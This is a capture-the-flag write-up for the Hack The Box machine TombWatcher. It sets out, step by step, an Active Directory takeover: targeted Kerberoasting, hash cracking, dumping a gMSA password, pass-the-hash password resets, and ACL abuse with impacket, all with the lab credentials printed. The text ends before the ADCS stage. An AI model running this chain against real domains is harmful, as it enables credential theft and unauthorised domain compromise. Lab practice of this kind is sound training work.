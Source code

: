
![](Tomb_bg.png)


## INFO_

```Machine_Information

As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: henry / H3nry_987TGV!
```


```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


Lets enumerate the AD ; we got domain user access !

```bloodhound-python

bloodhound-python --domain tombwatcher.htb --domain-controller dc01.tombwatcher.htb --nameserver 10.10.11.72 --username henry --password 'H3nry_987TGV!' --collectionmethod all --dns-tcp --zip
```


Seems like there's a clear path to the DC , HEnry --> WrtiteSPN [Alfred] --> Alfred Member of INfrastructure Group can ReadGMSAPassword for Ansible_Dev$ [ Computer account ]. Then ForceChangePassword of SAM --> who got WriteOwner on JOhn , then we can fucking login to the DC! Lets pwn this bad-boy !!


![](tomb-blood.png)


![](bloodhound-tomb.png)



## USER-ACCESS

### [Write_SPN](https://github.com/ShutdownRepo/targetedKerberoast) 

```
The user HENRY@TOMBWATCHER.HTB has the ability to write to the "serviceprincipalname" attribute to the user ALFRED@TOMBWATCHER.HTB.


A targeted kerberoast attack can be performed using PowerView's Set-DomainObject along with Get-DomainSPNTicket.
```

```targetedKerberoast

└─# python targetedKerberoast.py --domain tombwatcher.htb --user henry --password 'H3nry_987TGV!' --dc-ip 10.10.11.72
```


![](targeted-kerb-tomb.png)

We can crack the password using john- or other crackers ;

```john-the-ripper

└─# john --wordlist=/usr/share/wordlists/rockyou.txt alfred_hash 

basketball       (alfred) 
```


### [ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword) 

As Alfred is Member of Infrastructure group ; he got same access as the group.

```
ANSIBLE_DEV$@TOMBWATCHER.HTB is a Group Managed Service Account. The group INFRASTRUCTURE@TOMBWATCHER.HTB can retrieve the password for the GMSA ANSIBLE_DEV$@TOMBWATCHER.HTB.
```


```
└─# python gMSADumper.py --username alfred --password basketball --domain tombwatcher.htb         

ansible_dev$  ::  4f46405647993c7d4e1dc1c25dd6ecf4  
```


![](gmsa-tomb.png)



### [ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

```
The user ANSIBLE_DEV$@TOMBWATCHER.HTB has the capability to change the user SAM@TOMBWATCHER.HTB's password without knowing that user's current password.
```

```
pth-net rpc password "SAM" -U "tombwatcher.htb"/"ansible_dev$"%"ffffffffffffffffffffffffffffffff":"4f46405647993c7d4e1dc1c25dd6ecf4" -S "DC01.tombwatcher.htb"
Enter new password for SAM:

SAM :: p@ssw0rd
```

### [WriteOwner](https://www.thehacker.recipes/ad/movement/dacl/grant-ownership)

```
The user SAM@TOMBWATCHER.HTB has the ability to modify the owner of the user JOHN@TOMBWATCHER.HTB.
```

First lets be the owner of the user John;

```owneredit
impacket-owneredit -action write -new-owner 'sam' -target 'john' tombwatcher.htb/sam:'p@ssw0rd'
```

Then  lets give sam the full control over John.

```dacledit
impacket-dacledit -action write -rights 'FullControl' -principal 'sam' -target 'john' tombwatcher.htb/sam:'p@ssw0rd'
```

We can then force change the password !

```forcechangepassword
net rpc password "JOHN" -U "tombwatcher.htb"/"sam"%"p@ssw0rd" -S "DC01.tombwatcher.htb" 
```

Now, We are inside the DC.

![](user-tomb.png)


## ROOT_ACCESS


### GENERIC ALL OVER OU

```RUN_HOUND_AGAIN

bloodhound-python --domain tombwatcher.htb --domain-controller dc01.tombwatcher.htb --nameserver 10.10.11.72 --username john --password 'p@ssw0rd' --collectionmethod all --dns-tcp --zip
```



![](next-blood-tomb.png)

#### Generic Descendent Object Takeover

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. This can be done using Impacket's dacledit (cf. "grant rights" reference for the link).

```
impacket-dacledit -action write -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' tombwatcher.htb/john:'p@ssw0rd'

Now, the "john" user will have full control of ADCS OU.
```


Then change the password of cert_admin , as its member of the OU , Now we can exploit the ADCS......

